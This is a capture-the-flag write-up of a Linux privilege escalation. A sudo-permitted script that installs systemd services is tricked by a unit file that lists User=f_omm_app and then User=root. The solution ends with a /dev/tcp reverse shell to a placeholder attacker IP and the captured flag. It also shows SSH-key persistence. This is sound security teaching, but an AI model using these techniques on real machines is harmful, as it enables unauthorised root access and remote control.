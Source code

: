 # OMM API root
*Disclaimer: We solved this challenge after the CTF had ended. During the ctf we got to the very last step trying to bypass the if-check.*

<p align="center">
    <img src="img/omm_api_root_chall.png" alt="Challenge" width="500"/>
</p>

We currently have shell as the `f_omm_app` user. In the `OMM API user` challenge we got a reverse shell, which we now have upgraded to a ssh-shell by adding our ssh-publickey to `/home/f_omm_app/.ssh/authorized_keys`.
```
f_omm_app@ip-10-128-3-164:~$ id
uid=1002(f_omm_app) gid=1003(f_omm_app) groups=1003(f_omm_app),1001(hpc_users_rd)
```

`f_omm_app` have sudo permissions on the box, but only for certain commmands.
```
f_omm_app@ip-10-128-3-164:~$ sudo -l
Matching Defaults entries for f_omm_app on ip-10-128-3-164:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin\:/opt/pbs/bin, use_pty

User f_omm_app may run the following commands on ip-10-128-3-164:
    (ALL : ALL) NOPASSWD: /opt/pbs/bin/qsub, /opt/pbs/bin/qdel, /prog/util/sbin/appsysctladd, /usr/bin/systemctl restart *
```

The first two scripts, `/opt/pbs/bin/qsub` and `/opt/pbs/bin/qdel` doesn't do much.
```
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qsub
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qdel
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
```

The command `/usr/bin/systemctl restart *` allows us to restart the systemctl services, but does not turn out to be very useful for us. [/prog/util/sbin/appsysctladd](./appsysctladd.sh) is the most interesting script that we can run.
`appsysctladd` is a bash script which takes one or more directories as arguments. For each directory-argument given it searches for the directory `$HOSTNAME` and starts each `.service` file as a `systemctl` service. This means that if we create a service file with `User=root` the created service should execute our defined command as `root`!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ ls
eic-hostkey-MGy07Txb  ip-10-128-3-164

f_omm_app@ip-10-128-3-164:/dev/shm$ ls ip-10-128-3-164/
test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=root

[Install]
WantedBy=multi-user.target
```

```
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: /dev/shm/ip-10-128-3-164/test.service was rejected. User and Group must match file user and group
```

Unfortunately, that would be too easy. Looking closer into the `/prog/util/sbin/appsysctladd` script we can see the following check:
```
U=$( stat -c '%U' "${SRV}" )
G=$( stat -c '%G' "${SRV}" )

if egrep -q "^User=${U}$" "${SRV}" && egrep -q "^Group=${G}$" "${SRV}"
then
    SRVNAME=$( basename "${SRV}" )
    echo "$PROG: Setting up systemd service from ${SRV}"
    install -g root -o root -m 644 "${SRV}" "${SYSTEMD}/${SRVNAME}" && \
    systemctl daemon-reload && \
    systemctl start "${SRVNAME}" && \
    systemctl enable "${SRVNAME}"
else
    echo "$PROG: ${SRV} was rejected. User and Group must match file user and group"
fi
```

The script gets the username and group of the owner of the file, and checks that it match the `User` and `Group` the service is set to run as. This check is however not bulletproff, as it only checks if `User=f_omm_app` and `Group=f_omm_app` *exist* in the service file. So what happens if the service file contains the following?
```¨
User=f_omm_app
Group=f_omm_app
User=root
```

Turns out, when a field is set *twice* it is the *latest* occurrence of the field that takes precedence. Thus, we can bypass the if-check in the `appsysctladd` script by including `User=f_omm_app`, but then set `User=root` afterwards to make the service execute as root.
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target

f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat /tmp/output
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
```

With this knowledge, we can swap out the `ExecStart` POC with a reverse shell to get root, and the flag!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service
```

```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.128.1.12] from (UNKNOWN) [10.128.3.164] 54920
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
# cat /root/root.txt
EPT{PR1V35C_15_700_345Y_F0R_Y0U_GJ_WP!}
```